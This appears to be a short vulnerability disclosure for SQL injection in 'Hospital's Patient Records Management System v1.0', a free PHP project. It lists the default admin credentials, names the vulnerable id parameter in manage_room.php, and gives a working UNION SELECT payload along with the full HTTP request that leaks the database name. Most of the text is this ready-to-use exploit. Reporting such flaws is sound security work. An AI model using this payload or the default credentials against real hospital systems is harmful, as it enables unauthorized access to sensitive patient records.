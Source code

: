 # Hospital's Patient Records Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html

Vulnerability File: /hprms/admin/rooms/manage_room.php?id=

Vulnerability location: /hprms/admin/rooms/manage_room.php?id=, id

Current database name: hprms_db ,length is 8

[+] Payload: /hprms/admin/rooms/manage_room.php?id=-1%27%20union%20select%201,2,database(),4,5,6,7,8--+ // Leak place ---> id

```sql
GET /hprms/admin/rooms/manage_room.php?id=-1%27%20union%20select%201,2,database(),4,5,6,7,8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171823566-d8c75577-da7c-487b-a339-272d8d5be877.png)

![image](https://user-images.githubusercontent.com/54017627/171823590-887bdadd-779f-4c3f-a7f8-c01ff38230a5.png)
